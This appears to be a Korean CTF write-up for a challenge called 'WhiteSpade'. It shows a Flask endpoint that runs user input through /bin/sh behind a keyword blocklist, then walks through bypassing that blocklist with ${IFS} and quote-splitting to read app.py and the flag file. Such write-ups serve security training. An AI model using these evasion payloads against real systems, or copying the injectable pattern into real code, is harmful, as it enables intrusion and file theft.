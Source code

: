 # WhiteSpade
web.isangxcaution.xyz:28000

Made by yenua

```python
import subprocess

from flask import Flask, request, render_template

app = Flask(__name__)

with open('./flag.txt', 'r') as f:
    FLAG = f.read()

keywords = keywords = [*** REDUCTED ***]
def check_input(data):
    for keyword in keywords:
        if keyword in data.lower():
            return True
    return False

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/commandroom', methods=['GET', 'POST'])
def command():
    if request.method == 'POST':
        cmd = request.form.get('cmd')
        print(cmd)
        if check_input(cmd):
            return render_template('command.html', result='do not hack ㅡㅡ')
        try:
            result = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            resp = render_template('command.html', result=result.decode('utf-8'))
        except Exception as e:
            print(e)
            resp = render_template('command.html', result='error...')
        return resp
    return render_template('command.html')

app.run(host='0.0.0.0', port=8080)
```

소스 코드를 보면 keywords로 filtering 하고 있음을 알 수 있다. <br>
먼저 몇 가지 시도해보니, 해당 키워드에 'cat', 'flag' 및 whitespace 가 들어가 있음을 알 수 있었다. <br>
파이썬에서 whitespace 필터링을 우회하고, shell에서는 작동하게 하기 위해 기본 whitespace 환경 변수 '${IFS}' 를 사용하였고,
cat를 대신해서 more 명령어를 사용했다. 
```sh
more${IFS}app.py
``` 
실행 시 다음 결과 값을 받을 수 있다.
```python
:::::::::::::: app.py :::::::::::::: import subprocess from flask import Flask, request, render_template app = Flask(__name__) with open('./flag.txt', 'r') as f: FLAG = f.read() keywords = keywords = [' ', '*', '/', '=', '\n', '\r', '\t', '\x0b', '\x0c', '-', '+', 'flag', 'cat'] def check_input(data): for keyword in keywords: if keyword in data.lower(): return True return False @app.route('/') def index(): return render_template('index.html') @app.route('/commandroom', methods=['GET', 'POST']) def command(): if request.method == 'POST': cmd = request.form.get('cmd') print(cmd) #for log if check_input(cmd): return render_template('command.html', result='do not hack ㅡㅡ') try: result = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5) resp = render_template('command.html', result=result.decode('utf-8')) except Exception as e: print(e) #for log resp = render_template('command.html', result='error...') return resp return render_template('command.html') app.run(host='0.0.0.0', port=8080)
```
해당 결과로 keywords 값을 알아낼 수 있었고, flag 키워드 우회를 위해 
```sh
more${IFS}fl"a"g.txt
```
실행으로 FLAG 값을 받을 수 있었다.
```
:::::::::::::: flag.txt :::::::::::::: IxC{wh1t35pac3_can_b3_r3plac3d_w1th_IFS}
```
